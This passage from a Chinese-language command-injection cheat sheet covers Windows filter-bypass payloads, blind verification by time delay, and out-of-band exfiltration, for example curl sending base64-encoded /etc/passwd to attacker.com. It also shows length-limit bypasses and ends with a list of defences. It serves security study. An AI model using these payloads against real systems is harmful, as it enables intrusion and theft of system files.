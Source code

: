 ### Windows

```bash
who""a"m"i  # 双引号
who^ami  # 转义符
set var=whoami && %var%  # 环境变量
```

### 无回显验证

```bash
# 1. 时间延迟判断(不出网)
ping -c 4 127.0.0.1 # Linux
timeout 4 # Windows

# 2. DNS外带数据(出网)
curl http://attacker.com/`whoami`.domain
nslookup `whoami`.attacker.com

# 3. HTTP请求外带(出网)
curl http://attacker.com/$(cat /etc/passwd | base64)
wget http://attacker.com/$(id|base64)

# 4. 文件写入输出(不出网)
whoami > /var/www/html/result.txt
id | tee /tmp/result
```

### 其他限制绕过

```bash
# 将命令写入文件再执行（绕过长度限制）
echo "whoami" > /tmp/a
sh /tmp/a

# 通过环境变量存储命令（绕过次数限制）
export cmd="whoami"
$cmd
```

## 防御

1. 严格的输入过滤（危险函数，连接符号等等）
2. 使用安全的方法或者参数化查询
3. 保持权限最小化原则
4. 禁用危险函数（php.ini）
5. 使用容器隔离（docker）
6. 网络层：使用WAF，网段隔离，非必须服务器不出网
7. 应用层：启用**RASP（运行时应用自我保护），但这个可以绕过，调用比拦截类更底层的类**
8. 安全开发生命周期（SDLC）与监控、审计与响应
